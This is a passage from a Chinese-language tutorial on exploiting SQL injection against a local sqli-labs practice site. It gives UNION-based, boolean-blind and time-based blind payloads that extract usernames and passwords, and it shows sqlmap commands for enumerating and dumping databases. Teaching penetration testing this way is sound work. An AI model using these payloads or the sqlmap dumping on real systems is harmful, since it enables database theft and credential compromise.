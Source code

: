 前面我们已经拿到字段名、表名，接下来就可以直接通过 select 读取相应字段的值，比如此处用来获取 username 和 password 的值的 URL 请求：

```java
http://localhost/Less-2/?id=0 union select 1,2,group_concat(username,': ',password) from users--+
```

访问后页面返回各字段值：


<Image alt="图片11.png" src="https://s0.lgstatic.com/i/image2/M01/04/8C/CgpVE1_y7_uAa4SGAADxQK_Xy8o851.png"/> 
  
图 11：各字段的值

**（7）盲注猜解字符串**

前面的示例都是在有错误回显的情况下，通过 SQL 注入获得我们想要的用户信息，但有时在渗透测试时，网站并没有错误回显，此时就只能去盲注猜解出数据库名、字段名和值等关键信息。盲注猜解字符串的主要方式有布尔型盲注和基于时间延迟盲注，相关的知识我在《06 \| SQL 注入：小心数据库被拖走（上）》中介绍过了。

```sql
布尔型盲注：
http://localhost/Less-2/?id=1 and ascii(substr((select database()),1,1))>110--+ 判断数据库名的第一个字符的 ascii 值是否大于 110('H')
基于时间延迟盲注：
http://localhost/Less-2/?id=1 union select if(SUBSTRING(password,1,4)='Dumb',sleep(5),1),2,3 from users--+ 提取密码前四个字符做判断，正确就延迟 5 秒，错误返回 1
```

### 自动化利用漏洞

手工注入是个体力活，效率很慢，如果能自动化地利用漏洞，就可以解放双手，省下不少时间。因此，通常我们不会使用手工注入的方式。

下面我就来介绍如何利用 sqlmap 实现 SQL 注入漏洞的自动化利用。

#### 使用 sqlmap 拖库

当前在 SQL 注入漏洞利用工具中，sqlmap 绝对是最常用的，前文也多次提到它，这里我们就尝试使用 sqlmap 实现拖库。

借助 sqlmap 我们可以通过简单的参数自动完成漏洞的利用，既不用记过多的 SQL 语句，也会更加高效。下面我会介绍一些常用的命令参数，通过这些参数，我们能实现注入自动化。具体的流程和手工注入一样，这里就不再赘述了。

**（1）使用 --dbs 参数获取数据库名称**（注意：这里需要 sudo，否则无法访问 docker 容器中的网站），示例命令如下：

```shell
./sqlmap.py -u "http://localhost/Less-2/?id=1" --dbs
```


<Image alt="Drawing 11.png" src="https://s0.lgstatic.com/i/image2/M01/04/8C/CgpVE1_y7zKAPDYwAAHpwAOclsQ168.png"/> 
  
图 12：使用 --dbs 参数获取数据库名称

输出的对应 payload 也是学习各种注入技巧的参考资料，对于渗透测试者、漏洞扫描器、WAF 开发者需要研究的重要资源，有些扫描器干脆直接用 sqlmap，或者把它的所有 payload 扣出来使用。

**（2）使用 --current-db 参数获取当前数据库**，示例命令如下：

```shell
./sqlmap.py -u "http://localhost/Less-2/?id=1" --current-db
```
